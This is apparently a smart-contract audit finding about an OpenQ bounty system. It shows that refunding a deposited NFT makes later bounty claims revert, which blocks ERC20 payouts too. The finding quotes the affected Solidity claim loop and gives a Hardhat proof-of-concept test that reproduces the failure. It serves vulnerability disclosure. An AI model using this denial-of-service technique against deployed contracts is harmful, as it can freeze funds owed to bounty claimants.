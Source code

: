 However, after the bounty funder refund the NFT, the contract no longer has the ownership of the NFT, calling _transferNFT will revert, would block the bounty claim transaction which even block the ERC20 token claim.

In fact, more than atomicBounty claim is impacted, the FixedTierBounty claim and FixedTierPercetangeBounty claim is also impacted as long as the code below executes:

```solidity
        for (uint256 i = 0; i < _bounty.getNftDeposits().length; i++) {
            bytes32 _depositId = _bounty.nftDeposits(i);
            if (_bounty.tier(_depositId) == _tier) {
                _bounty.claimNft(_closer, _depositId);

                emit NFTClaimed(
                    _bounty.bountyId(),
                    address(_bounty),
                    _bounty.organization(),
                    _closer,
                    block.timestamp,
                    _bounty.tokenAddress(_depositId),
                    _bounty.tokenId(_depositId),
                    _bounty.bountyType(),
                    _closerData,
                    VERSION_1
                );
            }
        }
```

The POC below shows that after the user call refundDeposit to refund the NFT, bounty claim transaction revert.

```solidity
describe.only('ATOMIC POC', () => {
	it('fund ERC721 token then refund ERC721 block developer bounty claim', async () => {
		// ARRANGE

		const [ user1, user2, user3 ] = await ethers.getSigners();
		
		await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
		const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);

		await mockNft.connect(user1).safeMint(user1.address);
		await mockNft.setApprovalForAll(bountyAddress, true);

		const tokenDepositId = generateDepositId(Constants.bountyId, 0);

		await depositManager.connect(user1).fundBountyNFT(bountyAddress, mockNft.address ,1, 1, 0);
		
		expect(await mockNft.ownerOf(1)).to.equal(bountyAddress);

		const expectedTimestamp = await setNextBlockTimestamp(2764900);
		await depositManager.connect(user1).refundDeposit(bountyAddress, tokenDepositId)
		expect(await mockNft.ownerOf(1)).to.equal(user1.address);

		// ASSUME
		let bountyIsClaimable = await claimManager.bountyIsClaimable(bountyAddress);
		expect(bountyIsClaimable).to.equal(true);

		await claimManager.connect(oracle).claimBounty(bountyAddress, user3.address, abiEncodedSingleCloserData);

		// ASSERT
		bountyIsClaimable = await claimManager.bountyIsClaimable(bountyAddress);
		expect(bountyIsClaimable).to.equal(false);
```